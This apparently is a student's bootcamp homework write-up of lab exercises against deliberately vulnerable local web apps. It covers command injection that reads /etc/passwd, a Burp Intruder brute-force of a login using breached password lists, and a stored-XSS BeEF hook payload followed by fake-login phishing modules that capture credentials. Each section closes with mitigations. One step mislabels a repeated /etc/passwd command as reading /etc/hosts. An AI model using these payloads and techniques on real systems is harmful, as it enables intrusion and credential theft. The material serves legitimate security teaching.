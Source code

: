 # Unit 15 Homework - Web Vulnerabilities and Hardening.
Web Application 1: Your Wish is My Command Injection
If your Vagrant file is active then Open Oracle VM VirtualBox Manager and start your Virtual Machine.

Start the Terminal in your Virtual Machine.

Run the following command from your Terminal.
cd ./Documents/web-vulns && docker-compose up
Once the Docker Containers are up, Open Firefox Web Browser
Navigate to the following webpage: http://192.168.13.25
Log in with the following credentials:

User name: admin
Password: password
Select the Command Injection option or access the webpage directly at this page: http://192.168.13.25/vulnerabilities/exec/
As per the ping 8.8.8.8 && pwd there are five levels of sub-directories, see below:

![image](https://user-images.githubusercontent.com/93474690/146691175-4d3ec71d-989b-4a3b-9eb0-97bca460f5c6.png)

Based on above, using the dot-dot-slash method ../ need to do it 5 times to access the payloads, that will display the contents of the following directories/files.

/etc/passwd

From Command line in Terminal

![image](https://user-images.githubusercontent.com/93474690/146691184-508b1f46-e52f-4a23-8104-238b9da34f77.png)

From the Web-Browser
8.8.8.8 && cat ../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/93474690/146691198-e63fff85-7bb1-4134-944a-503364ba76b3.png)

/etc/hosts

![image](https://user-images.githubusercontent.com/93474690/146691210-209a2bc0-c621-4c3a-8715-2a85624e21e5.png)

From the Web-Browser
8.8.8.8 && cat ../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/93474690/146691261-1e38726d-3cff-4065-9ddb-99aaaacfb4b6.png)

Recommended Mitigation Strategies
Avoid Command Line Calls Altogether if possible - Use of APIs only where ever possible.
Set up Input Validation - Command Injection vulnerabilities occur when untrusted input is not sanitized correctly. A white list of possible inputs should be created for the system to accepts only the pre-approved inputs, and avoid the following characters: ;
&
|
`
Run with Restricted Permissions - Reduce the number of users to access the database and the secure the locations of all confidential files and the directories.
Web Application 2: A Brute Force to Be Reckoned With
From the Terminal in Vagrant run the command sudo burpsuite to start the Burp Suite Community Edition

Open Firefox browser on Vagrant and navigate to the webpage http://192.168.13.35/ba_insecure_login_1.php

Make sure the FoxyProxy setting on the web browser is set to Burp

![image](https://user-images.githubusercontent.com/93474690/146691281-40883fa2-0373-4640-9ce3-3fcab7c6f60f.png)

This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.

Enter the User name: test-user
Enter the Password: password

![image](https://user-images.githubusercontent.com/93474690/146691295-ff8a9701-8ce4-4f1f-94af-7eacd6af2790.png)

Following was displayed in the Burp Suite in Proxy tab under the Intercept - Highlighting the Login and password credentials.
Request to http://192.168.13.35:80

POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=6qk327baioj8ioe6p70ff6bvt1; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=test-passwd&form=submit

![image](https://user-images.githubusercontent.com/93474690/146691314-62ea4b43-12a1-4499-8dfd-9f1358b30675.png)

From the web application tool Burp Suite, on the Intercept tab Right click anywhere to send the information to Intruder

Select the Intruder tab, and verify the Target tab:

![image](https://user-images.githubusercontent.com/93474690/146691335-a19d66ae-435c-435d-bb3b-3ef4b62fd86e.png)

Select the Position tab and change the Attack type: to Cluster bomb, also clear all payload positions, except for the login and password credentials.

![image](https://user-images.githubusercontent.com/93474690/146691357-1ac92d0d-6766-482e-855d-67a8877697be.png)

You've been provided with a list of administrators and the breached passwords:

List of Administrators
Breached list of Passwords
Select the Payloads tab, and enter the List of Administrators file provided above into the Payload Options [Simple list] for the set 1.

![image](https://user-images.githubusercontent.com/93474690/146691379-7b52a104-ca56-4f83-9dd7-e8d71ffd0245.png)

Add the passwords from the Breached list of Passwords file provided above into the Payload Options [Simple list] for the set 2.

![image](https://user-images.githubusercontent.com/93474690/146691407-a8c0660e-6a26-4bbd-94cc-7493eab8c3d1.png)

Click the Start attack button to get the results.

Results from the analysis that was completed from the Intruder show that there was one successful login username/password combination. It was user name of "tonystark" and the password "I am Iron Man". Below snapshot displays the Successful login! You really are Iron Man :) in the Response tab.


![image](https://user-images.githubusercontent.com/93474690/146691427-2ed97347-accd-4a9a-9272-f83a059b925a.png)

Recommended Mitigation Strategies
There several ways to monitor and mitigate:

Locking the account after a fixed number of failed attempts.
Making the Usernames and Passwords more complex, and increase the frequency of changing the passwords.
Lock-out the IP address, if there are multiple login attempts.
Brute force site scanners. Scan the logs to see if there was a brute force attempted recently.
Web Application 3: Where's the BeEF?
1. Set up BeEF
From the Terminal in Vagrant run the command sudo beef to start the BeEF
When prompted for a password, enter cybersecurity.
This will kick off the BeEF application and return many details about the application to your terminal.
To access the BeEF GUI, right-click the first URL UI_URL: http://127.0.0.1:3000/ui/panel and select Open Link to open in default browser, or copy the link and open the browser of your choice (Chrome, or Microsoft Edge). Paste it in the address bar and press enter.
When the BeEF webpage opens, login with the following credentials: - Username: beef - Password: feeb
2. Prepare the Replicants Website
From the Terminal in Vagrant navigate to ~/Documents/web-vulns directory.
Run the command sudo docker-compose up
Go to the browser and enter the following in the address bar: http://192.168.13.25/vulnerabilities/xss_s/
Reset the database and the login with the following credentials: - Username: admin - Password: password
3. Start the BeEF hook, and write the payload
From the Terminal copy the BeEF hook: http://127.0.0.1:3000/hook.js
Write the Payload: <script src="http://127.0.0.1:3000/hook.js"></script>
4. Inject this payload
When trying to inject the payload there was an issue found, in the message box field, there was a limit of maxlength="50" character in the source code. Therefore we could not inject the payload.

![image](https://user-images.githubusercontent.com/93474690/146691440-0420486b-b802-40f2-89ff-bdf39bc15a84.png)

Solution: From the Browser press Ctrl+Shift+I for Developer Tools. Under the Element in Chrome or Inspector in Firefox locate the <div class="body_padded"> and in sub categories, locate the <textarea name="mtxMessage" cols="50" rows="3" maxlength="50">. Change the maxlength to any number greater than 50, for example maxlength="75", or just remove this code limit.

![image](https://user-images.githubusercontent.com/93474690/146691463-3dd0ac00-c955-4ff9-936f-1d429a27f723.png)
  
  5. A few BeEF exploits.
First, we'll attempt a social engineering phishing exploit to create a fake Google login pop up. We can use this to capture user credentials.
To access this exploit, select Google Phishing under Social Engineering.
  
  ![image](https://user-images.githubusercontent.com/93474690/146691478-ef443402-569d-451f-9909-bd07c16866af.png)
  
  After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.
  
  ![image](https://user-images.githubusercontent.com/93474690/146691502-cd744f8b-bc30-4061-bc37-54f62437ae04.png)
  
  To launch the exploit, select Execute in the bottom right corner.

After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.

A victim could easily mistake this for a real login prompt.

Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page.

Username: hackeruser
Password: hackerpass
  
  ![image](https://user-images.githubusercontent.com/93474690/146691512-1bf67225-fcc1-4ed4-b871-86994535deaf.png)
  
  Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.
  
  ![image](https://user-images.githubusercontent.com/93474690/146691532-bb230137-9081-4d01-a6a1-d93df88cd8ad.png)
  
  Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
Social Engineering >> Pretty Theft
  
  ![image](https://user-images.githubusercontent.com/93474690/146691549-0d104db5-36a0-4cb9-923a-695cd2c518fb.png)
  
  ![image](https://user-images.githubusercontent.com/93474690/146691556-1667ca27-2959-4560-a477-047488f0df70.png)
  
  ![image](https://user-images.githubusercontent.com/93474690/146691565-6602fd57-62cd-437a-82c5-8666e8dd4c57.png)
  
  Social Engineering >> Fake Notification Bar
  
  ![image](https://user-images.githubusercontent.com/93474690/146691578-cbb6f0a8-fca5-4059-a53e-f9eec04854f7.png)
  
  Host >> Get Geolocation (Third Party)
  
  ![image](https://user-images.githubusercontent.com/93474690/146691618-93099dcb-3be0-45f2-8f5b-cf2f564d4ac7.png)
  
  Recommended Mitigation Strategies
Keep the system up to date Restore the VM to a virgin state on a regular basis (once a week, or once a month). Also change your passwords regularly, assuming that you have been compromised.
